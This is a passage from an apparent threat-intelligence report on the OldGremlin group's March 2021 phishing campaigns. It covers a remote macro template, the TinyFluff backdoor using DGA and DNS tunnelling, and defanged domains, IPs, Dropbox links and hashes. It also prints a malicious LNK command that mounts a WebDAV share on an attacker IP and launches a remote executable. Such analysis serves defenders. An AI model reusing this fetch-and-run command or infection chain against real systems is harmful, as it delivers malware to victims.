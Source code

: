 yellow stripe. It is noteworthy that in February 2021, the threat actor sent emails leveraging a malicious document containing a similar Office 365 image. The campaign affected multiple companies, and OldGremlin is still reaping the benefits, as they are known for dwelling in the victims' infrastructure for a long time before proceeding to the next stage.  To return to the recent attack, the infection scheme is presented below for clarity:  OldGremlin's March 22 attack  Once opened, the document loads a template located at hxxps://dl[.]dropboxusercontent[.]com/s/gjyjs0rbtihy7ue/Doc1.dotm. The template contains a macro that performs the following actions:  Copies the original file (Anketa.docx) to the path %TEMP%\docx1.zip.    Extracts an executable file from the archive embedded in the original document to the path %TEMP%\word\media\image2.jpg, renames the file to image2.exe and launches it.    Displays an error and closes the document.     The archive contained the group's new tool, which — judging by the PDB string — the developer named TinyFluff. TinyFluff is a successor to the gang's custom backdoor called TinyNode, which OldGremlin used as the primary downloader for receiving and running malicious scripts. The purpose of TinyFluff was to launch the interpreter Node.js on the infected device and grant remote access to it (a detailed description of the interpreter can be found in the "Tools" section).  The key features of this version of TinyFluff are: The application downloads Node.js from the official website.    JavaScript is embedded in the file body.    It does not contain a hardcoded command and control (C2) address; instead the application uses DGA.    All communication with C2 servers is performed through a DNS tunnel.    Among the generated domains, two definitely belonged to the attackers. The rest were either not registered at the time of analysis or Group-IB experts could not find evidence that they were involved in the attack: Domain;NS-subdomain;IP addresses of NS-subdomainseccbc8[.]com;ns1[.]eccbc8[.]com ns2[.]eccbc8[.]com ns3[.]eccbc8[.]com ns4[.]eccbc8[.]com;46.101.113[.]161 161.35.41[.]9
a3c65c[.]org;ns1[.]a3c65c[.]org ns2[.]a3c65c[.]org ns3[.]a3c65c[.]org ns4[.]a3c65c[.]org;46.101.113[.]161 161.35.41[.]9 We will return to the table above, but for now we will continue to describe the cyber kill chain. Group-IB's Managed XDR extracted some of the JavaScripts used in this campaign. In particular, Group-IB detected an interesting — though still "raw" — script with a wide functionality:Communication with the C2 server through a DNS tunnelGathering information about infected devicesStealing files from infected devicesDownloading arbitrary files from serversDeploying a SOCKS server to proxy trafficExecuting arbitrary JS code  March 25 Campaign  Three days later, on March 25, the group launched a new campaign, but using a more simplified toolkit. The likely reason for this is that the final script used in the previous attack was not yet ready for full-fledged use in the wild. It required additional testing and additional features. The bad news is that OldGremlin will most likely perfect their script and use it in future attacks.  Unfortunately, Group-IB has not yet uncovered any email samples (if you have received one, please let us know), but our specialists did reconstruct the second attack.   OldGremlin's March 25 attack  The attack was identified following the analysis of OldGremlin's infrastructure. Group-IB discovered two LNK files that were associated with the IP address 46.101.113[.]161 (used to resolve NS records for subdomains from the previous malicious email campaign). Both files were located in archives available for downloading from Dropbox:  Name;SHA1;LinksAkt_sverki.zip;dda9900cefa8cdc8ec362d80480ba6c4cfdc62b2;hXXps://dl.dropboxusercontent[.]com/s/9kng4v6vuq7mq39/akt_sverki.zip?dl=0
;;hXXps://dl.dropboxusercontent[.]com/s/fq8ew6gl3x46rjc/Akt_sverki.zip?dl=0
;;hXXps://dl.dropboxusercontent[.]com/s/lf1w11jxp2z0f6s/Akt_sverki.zip?dl=0
;;hXXps://dl.dropboxusercontent[.]com/s/hy2ub5wnns4c0fi/Akt_sverki.zip?dl=0
DopSog_Consult.zip;ae52c93c16c63aac9be778e89157b67c7bc7c61c;hXXps://dl.dropboxusercontent[.]com/s/ivopsmmssq04p92/DopSog_Consult.zip?dl=0
;;hXXps:://dl.dropboxusercontent[.]com/s/mt0boz6v3u11hlx/DopSog_Consult.zip
;;hXXps:://dl.dropboxusercontent[.]com/s/ocrracouta681r5/DopSog_Consult.zip?dl=0
Akt_sverki.zip;1e22af4c6e4dfe625043dddde295fef84bd36ab9;  Group-IB experts believe that the above links were embedded in the emails sent by the group. When launched, the LNK files executed the following commands:  LNK name;CommandDopSog_Consultant.docx.lnk ;"%ComSpec%" /c net use hxxp://192.248.176[.]138 && start \\192.248.176[.]138\DavWWWRoot\DopSog_Consultant.docx && start /b \\192.248.176[.]138\DavWWWRoot\tf.exe